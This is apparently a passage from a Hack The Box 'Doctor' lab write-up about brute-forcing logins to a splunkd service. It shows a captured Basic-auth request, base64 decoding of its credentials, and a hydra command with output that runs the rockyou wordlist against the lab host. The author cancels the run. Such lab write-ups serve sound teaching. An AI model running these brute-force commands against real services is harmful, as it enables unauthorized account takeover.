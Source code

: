 # Bruteforcing logins to splunkd service

First let's understand how Web logins are passed to splunkd server. Here I tried username/password test/test.

```text
GET /services HTTP/1.1
Host: doctors.htb:8089
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://doctors.htb:8089/
Cookie: session=eyJfZnJlc2giOmZhbHNlfQ.X7_KAg.G6zWByHY0kh9YhabHjuG1Ihayfk
Connection: close
Upgrade-Insecure-Requests: 1
Authorization: Basic dGVzdDp0ZXN0
```

It doesn't look like anything was passed but the last line when base64 decoded returned

```shell
root@kali:~/CTF/HTB/Doctor# echo dGVzdDp0ZXN0 | base64 -d
test:test
```

We can use hydra for this. Note the login uses something called HTTP Basic Authentication so I Googled for that with hydra and found [this page](https://github.com/gnebbia/hydra_notes). I tried it (assuming username was admin)

```shell
root@Kali:~/HTB/Doctor# hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 64 -T 64 -s 8089 doctors.htb https-head /services -v -f
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-27 00:57:28
[WARNING] http-head auth does not work with every server, better use http-get
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-heads://doctors.htb:8089/services
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 15507.00 tries/min, 15507 tries in 00:01h, 14328892 to do in 15:25h, 64 active
[STATUS] 14987.33 tries/min, 44962 tries in 00:03h, 14299437 to do in 15:55h, 64 active
^C[ERROR] Received signal 2, going down ...
The session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

It took so long so I cancelled it.